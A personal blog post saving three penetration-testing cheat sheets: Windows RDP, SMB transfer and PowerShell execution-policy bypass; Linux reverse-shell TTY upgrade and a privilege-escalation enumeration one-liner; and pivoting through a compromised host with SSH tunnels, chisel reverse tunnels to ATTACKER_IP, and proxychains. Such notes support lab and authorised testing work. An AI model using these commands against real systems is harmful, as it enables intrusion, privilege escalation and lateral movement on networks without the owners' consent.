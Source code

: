 ## Oops...

New blog post!

Why? I've somehow managed to break my bparrot install on an old laptop...

There are 3 files that I want to keep, so for now they'll live here :)


---

### File 1 - Windows notes


#### RDP from Linux

```
xfreerdp /v:$vip /u:$user /p:$pass /cert:ignore /dynamic-resolution +clipboard
```

#### Transfer over SMB

On Linux
```
sudo -E ~/.local/bin/smbserver.py share $(pwd) -smb2support
```
On Windows
```
copy \\10.10.16.11\share\work.exe
```

#### POWERSHELL Policy Stuff
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

Or 

```
Get-Content -Raw <FILE> | iex
```

or 
```
powershell -EncodedCommand <Base64encodedcommands>
```

---

### File 2 - Low-Hanging Privilege Escalation on Linux


#### Try to Spawn a TTY

```
python -c 'import pty; pty.spawn("/bin/sh")' || python3 -c 'import pty; pty.spawn("/bin/sh")' || /usr/bin/script -qc /bin/sh /dev/null
```

Then type `CTRL+Z` to suspend the process and return to the main shell

Get the number of columns using 

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Which should output something like
```
rows 30
columns 116
```
Return to the reverse shell using
```
stty raw -echo; fg
```

In the reverse shell set the correct number of terminals using

```
stty rows <ROWS> cols <COLUMNS>
```

So in this example
```
stty rows 30 cols 116
```

Then set the terminal using
```
export TERM=xterm-256color
```



#### Tiny privesc check

```
echo "--ID--";id;echo "--ENV--";env;echo "--SUID--";find / -perm -u=s -type f 2>/dev/null; echo "--CAPABILITIES--"; getcap -r / 2>/dev/null; echo "--EXPORTS--"; cat /etc/exports;echo "--CRONTAB--"; cat /etc/crontab;echo "--APP ARMOR ENTRIES--";ls /etc/apparmor.d/; echo "--SUDO--"; sudo -l
```

### File 3 - Simple pivoting commands

#### Portforwarding

##### SSH
```
ssh -Nf -L <local_ip>:<local_port>:<destination_ip>:><remote_port> <user>@<IP>
```
For example to get access to a localhost **only** MySQL database on 10.20.30.40
```
ssh -Nf -L 127.0.0.1:3306:127.0.0.1:3306 victim@10.20.30.40
```
So any time you try to access **your** localhost on port 3306 it will instead go through the SSH tunnel to the SSH host's localhost on port 3306.

The first 127.0.0.1 is not needed, as it's implied. So you could shorten it using this
```
ssh -Nf -L 3306:127.0.0.1:3306 victim@10.20.30.40
```

You also don't need to use the same local port, as the remote port. So instead you could use the 33306 port.
```
ssh -Nf -L 33306:127.0.0.1:3306 victim@10.20.30.40
```

So now any traffic sent over 127.0.0.1:33306 will go through the SSH tunnel to 127.0.0.1:3306

This also doesn't need to be just to 127.0.0.1, so to access resources on an internal network, like an HTTP server with the IP 192.168.20.1, you can use this.
```
ssh -Nf -L 8000:192.168.20.1:80 victim@10.20.30.40
```

So any traffic sent to 127.0.0.1:8000 goes through the SSH tunnel and out to 192.168.20.1:80


##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<LISTENING_IP>:<LISTEN_PORT>:<SEND_IP>:<SEND_PORT>
```

An example to access an internal server on 127.0.0.1:3389 on the compromised host (10.20.30.40) run

Linux host (10.10.10.10)
```
chisel server --port 1234 --reverse
```

Compromised host
```
chisel client 10.10.10.10:1234 R:127.0.0.1:4242:127.0.0.1:3389
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389

#### Proxying

##### SSH
```
ssh -D <proxy_port> -Nf <user>@<victim_ip>
```
For example to setup a proxy on port 6666
```
ssh -D 6666 -Nf victim@10.20.30.40
```
##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse --socks5
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<PROXY_PORT>:SOCKS
```

An example to setup a proxy on port 7676.

Your host (10.10.10.10)
```
chisel server --port 1234 --reverse --socks
```

Compromised host
```
chisel client 10.10.10.10:1234 R:7676:SOCKS
```

##### Using the proxy

Now that we've got a SOCKS proxy setup, (let's just say that it's on port 8080) how do we use it?

###### Proxychains

ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies. [Source](https://github.com/haad/proxychains)

Basically it hooks **LIBC** and forces connections made by **LIBC** to use the proxy.

Usage is pretty easy, albeit slow sometimes...

What I tend to do is copy the /etc/proxychains.conf to the current working directory and editing the last line with this syntax.

```
socks5 127.0.0.1 <PROXY_PORT>
```

So in this example.
```
socks5 127.0.0.1 8080
```
Then to use it, just run
```
proxychains -f ./proxychains.conf <COMMAND>
```
You could also set the `PROXYCHAINS_SOCKS5` environmental variable instead of messing with the config file.

```
PROXYCHAINS_SOCKS5=<PROXY_PORT> proxychains <COMMAND>
```



